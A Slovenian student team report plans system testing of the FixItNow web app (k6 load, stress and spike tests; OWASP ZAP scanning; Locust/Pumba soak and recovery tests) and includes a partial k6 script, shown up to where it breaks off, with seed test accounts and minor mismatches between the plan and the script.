








# Poročilo – Naloga 4: Sistemsko testiranje rešitve FixItNow

---

## 1. Uvod in pregled izbranih orodij po članih ekipe

Namen sistemskega testiranja je preveriti delovanje celotnega, integriranega sistema **FixItNow** (spletni odjemalec React/Vite, zaledni strežnik Java 21 / Spring Boot 3.3 in relacijska podatkovna baza PostgreSQL 16 v okolju Docker) v pogojih, ki posnemajo realno produkcijsko rabo, mejne obremenitve, varnostne grožnje in izpade infrastrukture.

V skladu z navodili smo si člani ekipe razdelili **tri različne tipe sistemskih testov** in **tri različna specializirana orodja**, tako da skupaj pokrijemo ključne nefunkcionalne vidike kakovosti sistema (zmogljivost pod obremenitvijo in stresom, informacijsko varnost ter dolgoročno vzdržljivost in okrevanje po izpadu):

| Član ekipe | Izbrano orodje | Tip sistemskega testiranja | Kratek povzetek fokusa testiranja na projektu FixItNow |
| :--- | :--- | :--- | :--- |
| **Luka Grobelnik** *(podrobno v tem poročilu)* | **Grafana k6** | **Testiranje obremenitve (*Load Testing*), stresno testiranje (*Stress Testing*) in testiranje nenadnih sunkov (*Spike Testing*)** | Preverjanje odzivnih časov, prepustnosti (*RPS*) in točke preloma zalednega REST API-ja pri sočasnem prostorskem iskanju izvajalcev, avtentikaciji (BCrypt + JWT) ter oddaji in pregledu servisnih zahtevkov. |
| **Jan Mrkonjič** *(podrobno v tem poročilu)* | **OWASP ZAP (*Zed Attack Proxy*)** | **Varnostno in penetracijsko testiranje (*Security & Vulnerability Testing – DAST*)** | Dinamično varnostno pregledovanje aplikacije, testiranje odpornosti proti napadom *SQL Injection*, *XSS*, *Broken Access Control* (IDOR na zahtevkih in računih), *Brute-Force* napadom na prijavo/2FA ter preverjanje varnostnih glav HTTP in CORS politike. |
| **Alan Labaš** *(podrobno v tem poročilu)* | **Locust + Docker Chaos (Pumba)** | **Testiranje vzdržljivosti (*Soak / Endurance Testing*), skalabilnosti in okrevanja po izpadu (*Recovery Testing*)** | Dolgotrajno enakomerno obremenjevanje sistema za odkrivanje puščanja pomnilnika (*Memory Leaks*) in izčrpanja baznih povezav (*HikariCP*) ter preverjanje samodejnega okrevanja ob začasnem izpadu ali zakasnitvah zabojnika PostgreSQL. |

---

## 2. Kratek opis izbranih orodij za vse tri člane ekipe

### 2.1 Orodje 1: Grafana k6 (Luka Grobelnik)
**Grafana k6** je sodobno, odprtokodno orodje za testiranje zmogljivosti in obremenitve, napisano v jeziku **Go**, pri katerem se testni scenariji pišejo v jeziku **JavaScript (ES6)**. Zaradi izvajanja na osnovi Go gorutin porabi bistveno manj sistemskih virov (CPU in RAM) kot tradicionalna orodja na osnovi niti (npr. JMeter), kar omogoča generiranje več tisoč sočasnih navideznih uporabnikov (*Virtual Users – VUs*) z enega samega testnega računalnika. Orodje omogoča deklarativno definicijo profilov obremenitve (`stages` / `executors`) in vgrajenih kriterijev uspešnosti (`thresholds`), ki ob prekoračitvi mejnih vrednosti samodejno označijo test kot neuspešen (ne-ničelni izhodni status procesa, primeren za CI/CD cevovode).

### 2.2 Orodje 2: OWASP ZAP – Zed Attack Proxy (Jan Mrkonjič)
**OWASP ZAP** je uveljavljeno odprtokodno orodje za dinamično testiranje varnosti spletnih aplikacij (*DAST – Dynamic Application Security Testing*). Deluje kot posredniški strežnik (*intercepting proxy*), samodejni pajek (*Spider / AJAX Spider*) in aktivni skener ranljivosti (*Active Scanner*). V kontekstu projekta **FixItNow** omogoča uvoz OpenAPI/Swagger specifikacije (`/v3/api-docs`) in sistematično izvajanje simuliranih napadov na REST končne točke ter spletni vmesnik: preverjanje vbrizgavanja SQL ukazov v filtre iskalnika (`/api/v1/providers/search`), poskusov nepooblaščenega dostopa do tujih zahtevkov (`/api/tickets/{id}`), zlorabe avtentikacijskih žetonov JWT ter ugotavljanje manjkajočih varnostnih glav (`Content-Security-Policy`, `X-Content-Type-Options`, `Strict-Transport-Security`).

### 2.3 Orodje 3: Locust v kombinaciji z Docker Chaos / Pumba (Alan Labaš)
**Locust** je odprtokodno ogrodje za porazdeljeno obremenitveno testiranje in testiranje vzdržljivosti v jeziku **Python**, kjer je obnašanje uporabnikov definirano s kodo (`HttpUser`, `@task`) in izvajano prek asinhronih V/I dogodkov (*gevent*). V kombinaciji z orodjem **Pumba** (orodje za *Chaos Engineering* na nivoju Docker zabojnikov) omogoča izvedbo **testiranja vzdržljivosti (*Soak Testing*)** in **testiranja okrevanja (*Recovery / Resiliency Testing*)**. Medtem ko Locust daljše časovno obdobje vzdržuje stalno obremenitev na aplikaciji FixItNow (vključno z aktivnimi sejami in osveževanjem podatkov), Pumba simulira motnje v infrastrukturi – npr. začasno zaustavitev (`docker pause`), ponovni zagon zabojnika podatkovne baze PostgreSQL ali vnos omrežne zakasnitve (*netem delay*) – s čimer preverjamo, kako hitro si zaledni sistem Spring Boot in bazen povezav HikariCP opomoreta po odpravi izpada.

---

## 3. Podrobna opredelitev sistemskega testiranja – Luka Grobelnik (Grafana k6)

### 3.1 Utemeljitev izbire orodja Grafana k6 in tipov testov za FixItNow

Za podrobno obravnavo in izvedbo sem izbral **preizkušanje zmogljivosti pod obremenitvijo (*Load Testing*), stresno testiranje (*Stress Testing*) in testiranje nenadnih sunkov obremenitve (*Spike Testing*)** z orodjem **Grafana k6**.

**Zakaj so ti tipi sistemskih testov kritični za projekt FixItNow:**
1. **Računsko in podatkovno zahtevno prostorsko iskanje (`/api/v1/providers/search`):** Iskalnik izvajalcev ob vsakem klicu izvaja večkriterijsko filtriranje po kategorijah storitev, urni postavki, izkušnjah in tekstovnem nizu ter ob podanih koordinatah (`latitude`, `longitude`, `radiusKm`) računa geografsko razdaljo in paginacijo v bazi PostgreSQL.
2. **Kriptografsko zahtevna avtentikacija (`/api/v1/auth/login`):** Vsaka prijava uporabnika sproži preverjanje zgoščevalne funkcije **BCrypt** (ki je namenoma procesorsko potratna za zaščito pred razbijanjem gesel) in podpisovanje ter zapisovanje **JWT** dostopnih ter osvežitvenih žetonov v podatkovno bazo (`refresh_tokens`).
3. **Transakcijsko pisanje in osveževanje stanj (`/api/tickets`, `/api/notifications`):** Oddaja novih servisnih zahtevkov, pregled podrobnosti zahtevka in periodično poizvedovanje po neprebranih obvestilih (`/api/notifications/unread-count`) obremenjujejo omejen nabor baznih povezav (**HikariCP** privzeto dovoljuje 10 sočasnih povezav v podatkovno bazo).

**Prednosti orodja Grafana k6 pri testiranju FixItNow:**
- **Testiranje kot koda (*Testing as Code*):** Scenarij je zapisan v eni pregledni datoteki JavaScript, ki podpira veriženje klicev (npr. prijava $\rightarrow$ ekstrakcija `accessToken` iz JSON odgovora $\rightarrow$ avtenticirani klici v imenu prijavljene stranke).
- **Natančne statistične metrike:** k6 samodejno meri porazdelitev odzivnih časov po percentilih ($p(50)$, $p(90)$, $p(95)$, $p(99)$), kar je ključno za odkrivanje ozkih grl (*tail latency*), ki jih zgolj povprečni odzivni čas skrije.
- **Vgrajeno preverjanje kriterijev (`thresholds`):** Kriteriji uspešnosti (SLA) so zapisani neposredno v konfiguraciji testa in se preverjajo samodejno ob koncu izvajanja.

---

### 3.2 Kaj preverjamo: opredelitev testnih scenarijev

V okviru sistemskega testa preverjamo celovit, realističen mešani tok dejanj uporabnikov na platformi **FixItNow**, razdeljen v **tri funkcionalne sklope (skupine zahtevkov)**, ki se izvajajo v zaporedju z vmesnim časom razmišljanja uporabnika (*think time* `1–2 s`):

#### Scenarij `ST-01`: Javno brskanje in večkriterijsko prostorsko iskanje izvajalcev (Bralno intenziven sklop)
Simulira neprijavljene in prijavljene obiskovalce, ki odprejo vstopno stran ter iščejo mojstra v svoji okolici:
1. **`GET /api/v1/stats/public`** – Pridobitev javnih statistik platforme na vstopni strani (število zaključenih popravil, aktivnih izvajalcev in povprečna ocena).
2. **`GET /api/v1/providers/categories`** – Pridobitev aktivnih kategorij storitev.
3. **`GET /api/v1/providers/search?category=PLUMBING&maxPrice=80&minExperience=2&latitude=46.5547&longitude=15.6459&radiusKm=25&page=0&size=12`** – Večkriterijsko in geolokacijsko iskanje izvajalcev v okolici Maribora z izračunom razdalje `distanceKm`.
4. **`GET /api/v1/providers/{id}`** – Ogled javnega profila izbranega izvajalca in **`GET /api/v1/reviews/provider/{id}`** za prikaz njegovih ocen.

#### Scenarij `ST-02`: Avtentikacija uporabnika in osveževanje seje (CPU-intenziven sklop)
Simulira prijavo obstoječe stranke v sistem in pridobivanje avtentikacijskih žetonov:
1. **`POST /api/v1/auth/login`** – Prijava z e-pošto in geslom testne stranke; strežnik preveri BCrypt zgoščeno vrednost gesla, ustvari dostopni žeton JWT (`accessToken`) in shrani osvežitveni žeton (`refreshToken`) v PostgreSQL.
2. **`GET /api/v1/user/me`** – Pridobitev profila prijavljenega uporabnika z uporabo glave `Authorization: Bearer <accessToken>`.

#### Scenarij `ST-03`: Ustvarjanje, pregled servisnih zahtevkov in preverjanje obvestil (Bralno-pisalni transakcijski sklop)
Simulira aktivno stranko, ki preverja svoja obvestila, pregleduje obstoječe zahtevke in odda nov servisni zahtevek:
1. **`GET /api/notifications/unread-count`** in **`GET /api/notifications`** – Preverjanje števila neprebranih obvestil in seznama obvestil v komponenti zvončka (`NotificationBell`).
2. **`GET /api/tickets`** – Pridobitev seznama vseh servisnih zahtevkov prijavljene stranke na nadzorni plošči.
3. **`POST /api/tickets`** – Oddaja novega servisnega zahtevka (z naslovom, opisom okvare, kategorijo `PLUMBING`, nujnostjo `MEDIUM` in naslovom ter koordinatami lokacije), ki sproži transakcijski zapis v tabeli `tickets` in `ticket_logs`.

---

### 3.3 Pogoji izvajanja testov

#### 3.3.1 Strojno in programsko testno okolje
- **Operacijski sistem:** Windows 11 (64-bit), lokalno testno okolje.
- **Zaledni strežnik (SUT – *System Under Test*):** Java 21 OpenJDK, Spring Boot 3.3 (`http://localhost:8080`), vgrajeni strežnik Apache Tomcat (privzeto do 200 delovnih niti), HikariCP bazen povezav (`maximum-pool-size = 10`).
- **Podatkovna baza:** PostgreSQL 16 v Docker zabojniku (`localhost:5433`), predhodno napolnjena s testnimi podatki prek skripte `seed_api.py` (več deset izvajalcev, strank, zahtevkov in ocen).
- **Generator obremenitve:** Grafana k6 (izvajan kot ločen proces z zastavico `--out json=naloga4/rezultati_k6.json`).

#### 3.3.2 Profili obremenitve, trajanje in vrsta obremenitve

Za celovito oceno obnašanja sistema so opredeljeni **trije ločeni profili obremenitve**:



| Št. | Profil testiranja | Cilj profila | Potek obremenitve (*Ramp-up / Plateau / Ramp-down*) | Skupno trajanje |
| :---: | :--- | :--- | :--- | :---: |
| **1** | **Test obremenitve (*Load Test*)** | Preveriti stabilnost in odzivne čase pri pričakovani normalni (20 sočasnih uporabnikov) in dnevni vršni obremenitvi (50 sočasnih uporabnikov). | • `1 min`: postopno naraščanje `0 → 20 VUs`<br>• `2 min`: vzdrževanje normalne obremenitve `20 VUs`<br>• `1 min`: naraščanje na vršno obremenitev `20 → 50 VUs`<br>• `1 min`: vzdrževanje vršne obremenitve `50 VUs`<br>• `1 min`: postopno spuščanje `50 → 0 VUs` | **6 min** |
| **2** | **Stresni test (*Stress Test*)** | Poiskati zgornjo mejo zmogljivosti sistema (točko nasičenja CPU zarad BCrypt prijav ali izčrpanja HikariCP baznih povezav) in preveriti, kako sistem odpoveduje pod preobremenitvijo. | • `1 min`: hitro naraščanje `0 → 50 VUs`<br>• `2 min`: stopnjevanje `50 → 100 VUs`<br>• `2 min`: stopnjevanje v preobremenitev `100 → 200 VUs`<br>• `1 min`: vzdrževanje ekstremne obremenitve `200 VUs`<br>• `1 min`: razbremenitev `200 → 0 VUs` | **7 min** |
| **3** | **Test nenadnega sunka (*Spike Test*)** | Simulirati nenaden naval uporabnikov (npr. ob neurju ali promocijski kampanji) in preveriti, ali sistem preživi sunek brez sesutja ter se po padcu prometa takoj vrne na normalne odzivne čase. | • `30 s`: osnovni promet `10 VUs`<br>• `20 s`: nenadni skok `10 → 150 VUs`<br>• `1 min`: vzdrževanje sunka `150 VUs`<br>• `20 s`: hiter padec `150 → 10 VUs`<br>• `1 min`: opazovanje okrevanja pri `10 VUs` | **3 min 30 s** |

---

### 3.4 Merjene metrike

Med izvajanjem testov spremljamo in beležimo naslednje skupine metrik:

1. **Časovne metrike odzivnosti (Latency / Response Time):**
   - **`http_req_duration` (celotni čas zahtevka):** od pošiljanja zadnjega bajta zahteve do prejema zadnjega bajta odgovora (`http_req_sending + http_req_waiting + http_req_receiving`).
   - **`http_req_waiting` (TTFB – *Time to First Byte*):** čas, ki ga zaledni strežnik Spring Boot in baza PostgreSQL porabita za obdelavo zahteve.
   - **Statistični kazalniki:** povprečje (`avg`), mediana (`med` / $p(50)$), 90. percentil ($p(90)$), **95. percentil ($p(95)$)** in **99. percentil ($p(99)$)** ter maksimum (`max`). Ločeno merimo tudi metrike po posameznih skupinah (`search_duration`, `login_duration`, `ticket_create_duration`).
2. **Metrike prepustnosti (Throughput):**
   - **`http_reqs` (Requests Per Second – RPS):** število uspešno obdelanih HTTP zahtevkov na sekundo.
   - **`iterations`:** število v celoti zaključenih uporabniških scenarijev na sekundo.
   - **`data_received` / `data_sent`:** količina prenesenih podatkov v kB/s oziroma MB/s.
3. **Metrike zanesljivosti in napak (Error & Availability Metrics):**
   - **`http_req_failed`:** delež neuspešnih HTTP klicev (statusne kode `5xx` – napake strežnika, `4xx` – nepričakovane zavrnitve ali poteki časovnih omejitev `timeout`).
   - **`checks`:** odstotek uspešno opravljenih funkcionalnih preverjanj vsebine odgovorov (npr. prisotnost `accessToken`, veljavna paginacija `content`, pravilni status `200 OK` / `201 Created`).
4. **Sistemske metrike vira (Resource Utilization na strežniku):**
   - Zasedenost procesorja (**CPU %**) procesov `java` (Spring Boot) in `postgres`.
   - Poraba delovnega pomnilnika (**RAM / JVM Heap**).
   - Zasedenost baznih povezav v bazenu **HikariCP** (število aktivnih in čakajočih niti `pending threads` ter morebitne izjeme `SQLTransientConnectionException: HikariPool-1 - Connection is not available`).

---

### 3.5 Kriteriji uspešnosti (SLA pragovi za presojo ustreznosti sistema)

Sistem **FixItNow** ocenimo kot **ustrezen (PASSED)** pri testu obremenitve, če izpolnjuje vse spodaj opredeljene kriterije sprejemljivosti (pri stresnem in spike testu pa dodatno preverjamo, da se proces JVM ne sesuje in da se po umiritvi prometa odzivni časi vrnejo v zeleno območje):

| Metrika / Kazalnik | Koda metrike v k6 | Kriterij za **USPEŠNO (PASSED)** – Obremenitveni test (do 50 VUs) | Kriterij za **USPEŠNO (PASSED)** – Stresni / Spike test (do 150–200 VUs) |
| :--- | :--- | :--- | :--- |
| **Splošni odzivni čas – 95. percentil** | `http_req_duration{p(95)}` | **$< 500\text{ ms}$** | **$< 1500\text{ ms}$** |
| **Splošni odzivni čas – 99. percentil** | `http_req_duration{p(99)}` | **$< 1000\text{ ms}$** | **$< 3000\text{ ms}$** |
| **Iskanje izvajalcev (`GET /api/v1/providers/search`) – $p(95)$** | `http_req_duration{endpoint:search}` | **$< 350\text{ ms}$** | **$< 1000\text{ ms}$** |
| **Prijava uporabnika (`POST /api/v1/auth/login`, BCrypt) – $p(95)$** | `http_req_duration{endpoint:login}` | **$< 800\text{ ms}$** | **$< 2500\text{ ms}$** |
| **Oddaja zahtevka (`POST /api/tickets`) – $p(95)$** | `http_req_duration{endpoint:create_ticket}` | **$< 600\text{ ms}$** | **$< 1800\text{ ms}$** |
| **Stopnja neuspešnih zahtevkov (HTTP 5xx / Timeout)** | `http_req_failed` | **$< 1,0\text{ \%}$** (`rate < 0.01`) | **$< 5,0\text{ \%}$** (`rate < 0.05`) |
| **Uspešnost vsebinskih preverjanj (`checks`)** | `checks` | **$> 99,0\text{ \%}$** (`rate > 0.99`) | **$> 95,0\text{ \%}$** (`rate > 0.95`) |
| **Okrevanje po preobremenitvi (*Recovery*)** | Odzivni čas v zadnji minuti po padcu VUs | Brez degradacije ($p(95) < 300\text{ ms}$) | Vrnitev $p(95) < 400\text{ ms}$ v $\le 30\text{ s}$ po znižanju obremenitve, brez zaostalih zaklenjenih povezav |

---

### 3.6 Pripravljena testna skripta Grafana k6 (`naloga4/fixitnow_k6_test.js`)

Spodnja skripta v celoti implementira opredeljene scenarije (`ST-01`, `ST-02`, `ST-03`), prilagodljive profile obremenitve (`load`, `stress`, `spike`) ter avtomatsko preverjanje kriterijev uspešnosti (`thresholds`):

```javascript
import http from 'k6/http';
import { check, group, sleep } from 'k6';
import { Trend, Rate } from 'k6/metrics';

// Prilagojene metrike po končnih točkah
const searchDuration = new Trend('search_duration', true);
const loginDuration = new Trend('login_duration', true);
const createTicketDuration = new Trend('create_ticket_duration', true);
const businessErrorRate = new Rate('business_error_rate');

const BASE_URL = __ENV.BASE_URL || 'http://localhost:8080';
const PROFILE = __ENV.PROFILE || 'peak'; // 'load' | 'stress' | 'spike'

// Bazen uporabnikov iz seed_api.py (geslo za vse je Password1!)
const SEED_USERS = [
  'barbara.rant@mail.si',
  'klemen.ferlinc@mail.si',
  'mateja.krajnc@mail.si',
  'maja.zagar@mail.si',
  'petra.stefanic@mail.si',
  'borut.zagar@mail.si',
  'mojca.gaberc@mail.si',
  'klemen.fras@mail.si',
  'nina.gasparic@mail.si',
  'janez.susnik@mail.si',
  'bostjan.heric@mail.si',
  'eva.majcen@mail.si',
  'andrej.krajnc@mail.si',
  'jure.mlakar@mail.si',
  'bostjan.meznaric@mail.si',
  'barbara.meznaric@mail.si',
  'tadej.susnik@mail.si',
  'dejan.novak@mail.si',
  'matej.kokol@mail.si',
  'primoz.breznik@mail.si',
  'alenka.mlakar@mail.si',
  'primoz.hribar@mail.si',
  'matej.kerec@mail.si',
  'tadej.meznaric@mail.si',
  'primoz.stuhec@mail.si',
  'katja.senk@mail.si',
  'valter.kerec@mail.si',
  'eva.divjak@mail.si',
  'andrej.vukovic@mail.si',
  'jure.cafuta@mail.si',
];

const SEED_PASSWORD = 'Password1!';

const profiles = {
  load: [
    { duration: '30s', target: 20 },
    { duration: '1m', target: 50 },
    { duration: '30s', target: 0 },
  ],
  // Agresivni stresni test za iskanje točke preloma in preobremenitev strežnika
  stress: [
    { duration: '30s', target: 50 },   // Hiter zagon
    { duration: '1m', target: 150 },   // Prehod v visoko obremenitev
    { duration: '1m', target: 300 },   // Zasičenje bazena povezav in CPU (BCrypt)
    { duration: '1m', target: 500 },   // Ekstremni stres - točka preloma (crash / 500 / timeout)
    { duration: '1m', target: 800 },   // Maksimalno izčrpanje virov
    { duration: '30s', target: 0 },    // Preverjanje okrevanja (recovery)
  ],
  spike: [
    { duration: '20s', target: 20 },
    { duration: '15s', target: 400 },  // Hiter masiven sunek (spike)
    { duration: '1m', target: 400 },
    { duration: '20s', target: 20 },
    { duration: '30s', target: 0 },
  ],
};

// Privzeto nastavljeno na agresivni stresni profil
export const options = {
  stages: profiles[__ENV.PROFILE || 'stress'],
  thresholds: {
    http_req_failed: ['rate<0.05'],                       // Pri stresu pričakujemo do 5% napak ob zlomu
    http_req_duration: ['p(95)<1500', 'p(99)<3000'],     // Mejni SLA pod stresom
    search_duration: ['p(95)<1000'],
    login_duration: ['p(95)<2500'],
    create_ticket_duration: ['p(95)<1800'],
    checks: ['rate>0.90'],
  },
};

export default function () {
  let accessToken = null;

  // Izbira uporabnika iz seznama glede na VU ID (ali naključno)
  const userEmail = SEED_USERS[(__VU - 1) % SEED_USERS.length] || SEED_USERS[0];

  // 1. SKLOP (ST-01): Javno brskanje in prostorsko iskanje izvajalcev
  group('ST-01: Javno brskanje in iskanje izvajalcev', () => {
    const statsRes = http.get(`${BASE_URL}/api/v1/public/stats`, {
      tags: { endpoint: 'public_stats' },
    });
    check(statsRes, {
      'javna statistika vrne 200 OK': (r) => r.status === 200,
    });

    const categoriesRes = http.get(`${BASE_URL}/api/v1/providers/categories`, {
      tags: { endpoint: 'categories' },
    });
    check(categoriesRes, {
      'kategorije vrnejo 200 OK': (r) => r.status === 200,
    });

    const searchUrl =
